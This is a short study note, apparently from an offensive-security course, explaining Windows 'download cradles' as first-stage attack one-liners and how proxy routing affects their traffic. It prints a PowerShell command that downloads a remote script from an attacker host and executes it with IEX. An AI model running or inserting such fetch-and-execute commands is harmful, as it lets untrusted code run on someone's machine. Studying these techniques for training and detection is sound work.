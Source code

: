 ## Download Cradles

### Windows

OSEP has shown a very strong bias to Windows oriented client side attacks so far. I do wonder if I'll ever get to discussing Linux Download Cradles...

Anywho, a Download Cradle is stage one. It is a one-liner that serves to pull down and run stage two, whatever that may be. Throughout OSCP the goto Windows Cradle was as follows:
```powershell
powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.0.1/run.ps1') | IEX
```

OSEP looks for us to advance on this by considering how this stage one download works, and how subtle it really is. The `DownloadString` invocation is not the issue per se, but rather we need to think about where the traffic resulting from that request is going. Namely we need to think about how and whether our traffic is being routed via a proxy on its way between the attack machine and the victim machine.

A side note of all this is the following note on detection engineering for download cradles. Not very relevant in the context of an offensive security course, however valuable to think about whenever we put our blue team hat on again: https://mgreen27.github.io/posts/2018/04/02/DownloadCradle.html

